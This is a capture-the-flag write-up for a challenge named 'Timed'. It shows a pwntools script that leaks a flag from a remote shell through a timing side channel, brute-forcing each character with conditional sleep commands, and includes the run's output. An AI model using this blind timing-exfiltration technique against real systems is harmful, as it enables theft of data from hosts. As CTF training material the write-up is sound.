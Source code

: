 # Timed
Category: Miscellaneous

## Description
> Time is of the essence

## Solution


Let's connect to the attached service:

```console
root@kali:/media/sf_CTFs/technion/Timed# nc ctf.cs.technion.ac.il 4015
$ ls -al
Execution Time: 0.006
```

So this challenge has a similar concept to what we saw in [Bashed](Bashed.md), but instead of returning us the SHA256 of the command's output, we get its execution time. 

Just like before, our strategy will be to try and leak the flag character by character. For that, we'll need to somehow distinguish between the different characters based on their value. The `sleep` command seems like a great candidate: It simply postpones execution for the duration given to it:

```console
root@kali:/media/sf_CTFs/technion/Timed# nc ctf.cs.technion.ac.il 4015
$ sleep 3
Execution Time: 3.005
```

We can assume that we'll be able to iterate the flag character after character using the same technique we've used in `Bashed`: `grep -h -r cstechnion |  cut -c  <n>`. So, given a character from the flag, how do we time-encode it? The first solution that comes to mind is to use the character's ASCII value as the duration. But, this means that if the flag contains a `z`, we'll have to wait 122 seconds for just this character! We can try to subtract `chr(' ') = 32` from the ASCII value, given that space is the first printable character that we'd expect to see in the flag, but that still leaves us with almost 90 seconds for the worst cases.

Instead, we'll use a double loop. For each character location we'll iterate all the possible values for printable characters, and sleep for one second if we hit the correct character.

Code:
```python
from pwn import *
import string
import itertools


def get_timing(r, commnad):
    r.sendlineafter("$ ", commnad)
    output = r.recvline()
    return output.decode("ascii").strip()

def connect():
    return remote("ctf.cs.technion.ac.il", 4015)

def get_flag():
    flag = ""

    r = connect()
    with log.progress('Leaking flag... ') as p:
        while True:
            try:
                for i in itertools.count(start = len(flag) + 1):
                    p.status(f"Brute-forcing character #{i}, partial flag: {flag}")
                    for ascii_val in range(ord(' '), ord("~")):
                        out = get_timing(r, f"if [ {ascii_val} -eq $(grep -h -r cstechnion |  cut -c {i} | tr -d '\\n' | od -A n -t d1 | xargs | cut -d ' ' -f1) ]; then sleep 1; fi")
                        out = out.replace("Execution Time: ", "")
                        if out[0] == '1':
                            flag += chr(ascii_val)
                            break
                    else:
                        raise RuntimeError("Can't find flag")
                
                    if flag[-1] == "}":
                        return flag
            except EOFError:
                log.info("Disconnected from server, reconnecting...")
                log.info(f"Flag so far: {flag}")
                r = connect()

flag = get_flag()
log.success(f"Flag: {flag}")

```

Output:
```console
root@kali:/media/sf_CTFs/technion/Timed# python3 solve.py
[+] Opening connection to ctf.cs.technion.ac.il on port 4015: Done
[+] Leaking flag... : Done
[*] Disconnected from server, reconnecting...
[*] Flag so far: cstec
[+] Opening connection to ctf.cs.technion.ac.il on port 4015: Done
[*] Disconnected from server, reconnecting...
[*] Flag so far: cstechnion
[+] Opening connection to ctf.cs.technion.ac.il on port 4015: Done
[*] Disconnected from server, reconnecting...
[*] Flag so far: cstechnion{t1m1n
[+] Opening connection to ctf.cs.technion.ac.il on port 4015: Done
[*] Disconnected from server, reconnecting...
[*] Flag so far: cstechnion{t1m1ng_1s_3
[+] Opening connection to ctf.cs.technion.ac.il on port 4015: Done
[*] Disconnected from server, reconnecting...
[*] Flag so far: cstechnion{t1m1ng_1s_3very7h
[+] Opening connection to ctf.cs.technion.ac.il on port 4015: Done
[+] Flag: cstechnion{t1m1ng_1s_3very7h1ng}
```

Flag: `cstechnion{t1m1ng_1s_3very7h1ng}`